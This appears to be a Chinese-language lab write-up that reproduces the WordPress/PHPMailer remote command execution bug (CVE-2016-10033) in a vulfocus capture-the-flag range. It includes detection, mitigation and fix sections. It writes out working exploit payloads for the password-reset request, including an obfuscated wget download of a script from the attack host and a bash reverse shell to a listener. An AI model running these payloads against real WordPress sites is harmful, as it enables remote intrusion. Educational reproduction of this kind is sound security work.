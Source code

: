# wordpress漏洞
## 漏洞复现
### 靶场搭建
网络结构搭建后，在vulfocus中启动靶场环境

![](image/exp2/进入wordpress.png)
经试验第二个网址可以成功访问wordpress页面

![](image/exp2/wordpress页面.png)
使用wordpress的扫描wpscan工具对该网页进行扫描，可以得知该网页的wordpress版本号为4.

![](image/exp2/wpscan扫描版本.png)
![](image/exp2/版本号.png)

经过查询，可以得知在4.7.1版本之前WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。漏洞编号为CVE-2016-10033

使用msf工具搜索CVE-2016-10033漏洞的相关信息
![1747587353915](image/exp2/1747587353915.png)发现漏洞可以使用

经过查询，得知漏洞页面是在用户忘记密码，获取新密码的页面，输入用户名后即发送邮件
![1747587598275](image/exp2/1747587598275.png)
使用burp suite和proxy进行设置，开启抓包
![1747587714955](image/exp2/1747587714955.png)
![1747587788327](image/exp2/1747587788327.png)
输入admin用户名后，点击get new password
![1747587840813](image/exp2/1747587840813.png)
之后查看burpsuite，找到lostpassword的相关包
![1747587945579](image/exp2/1747587945579.png)
点击send to repeater之后即可更改指令
![1747588054221](image/exp2/1747588054221.png)
![1747588153843](image/exp2/1747588153843.png)
接下来要开始构建payload，但有一些需要注意的地方执行的命令不能包含大量特殊字符，如 :、引号等。命令会被转换成小写字母  命令需要使用绝对路径  需要知道某一个存在的用户的用户名

接下来在攻击机构建一个cmd.sh的脚本，攻击机ip为192.168.37.5，脚本内容为
`bash -i >& /dev/tcp/192.168.37.5/9999 0>&1`
端口号为9999
payload:
`aa(any -froot@localhost -be ${run{/usr/bin/wget --output-document /tmp/rce 192.168.157.137/cmd.sh}} null)`
执行反弹shell
`aa(any -froot@localhost -be ${run{/bin/bash /tmp/rce}} null)`
两个payload中的空格与/需要进行替换，经过查询后，将两个payload进行转换
`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce${substr{10}{1}{$tod_log}}192.168.157.137${substr{0}{1}{$spool_directory}}cmd.sh}} null) `

`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce}} null)`
首先在攻击机上启用http服务，默认端口为80
![1747588713014](image/exp2/1747588713014.png)
然后执行第一个payload，在靶机上下载cmd.sh并改为rce
![1747588795093](image/exp2/1747588795093.png)
观察攻击机的反馈提示，返回码为200，即传输成功
![1747588897461](image/exp2/1747588897461.png)
接着在攻击机上，对端口9999，进行流量检测
`nc -lvnp 9999`
![1747588969751](image/exp2/1747588969751.png)
接着执行下一个payload，执行反弹shell
![1747589032570](image/exp2/1747589032570.png)
发现成功执行了反弹shell，使用命令ls /tmp即可成功获得flag，成功夺旗，标志着漏洞复现成功
![1747589184964](image/exp2/1747589184964.png)
## CVE-2016-10033漏洞利用检测
用tcpdump对网卡eth1进行流量检测，并再次进行攻击，将抓包的内容保存到capture.pcap,重复攻击流程后终止抓包
![1747589325437](image/exp2/1747589325437.png)
在wireshark中对capture.pcap的流量进行筛选，筛选条件为http，并试图从中找出可疑的数据包
发现有几个可疑的数据包，通过追踪http流进行进一步分析：

![1747589628905](image/exp2/1747589628905.png)
追踪http流后发现了相关的指令和返回的数据包

payload1![1747589708355](image/exp2/1747589708355.png)
payload2![1747589731849](image/exp2/1747589731849.png)
## 缓解与修复
### 缓解
部署 Web 应用程序防火墙 (WAF)：部署 Web 应用程序防火墙 (WAF) 来监视和过滤传入流量，以发现指示 RCE 攻击的可疑活动。 WAF 可以在恶意请求到达您的 WordPress 站点之前检测并阻止它们，从而提供针对网络威胁的额外防御层。
应用最小权限原则让 PHP 进程运行在无 sudo、无编译器、无 /usr/bin/wget 等高危二进制的受限账户下；即便注入成功，也难以进一步横向或持久化。
### 修复
将WordPress  升级到 ≥ 4.7.1（已内置 PHPMailer 5.2.21）或任何更高版本 WP 4.7.1 官方安全维护版已回溯修补此缺陷 

代码层 避免 将任何未验证输入写入 Sender或from
## 遇到的问题
#### 1.登录vulfocus时显示服务器内部错误，查询相关资料后发现是redis服务启动出现了问题
![1747589893173](image/exp2/1747589893173.png)
![1747589919360](image/exp2/1747589919360.png)

进入容器后输入`redis-server`，再次访问vulfocus并进行登录，发现可以正常登录
#### 2.burp suite使用相关

yakit在使用中，对于发出的请求包有着严格的要求，导致请求包格式稍有差错就会发不出去，因此再搜索解决办法后决定使用burpsuite进行请求包发送的相关工作。

下载后进行设置，在设置中添加127.0.0.1：82，并在proxy中进行同步设置，使得流量流经burp suite，经过实践后发现使用burpsuite可以成功进行抓包并且进行请求包的发送及responce的收取
![1747590971305](image/exp2/1747590971305.png)
#### 3.代码小bug
在监听时将`nc -lvnp`代码 输入错误，导致执行shell时无响应，因此一直在验证第二个payload是否出现错误，耽误时间，后续发现代码问题并改正后成功使用漏洞。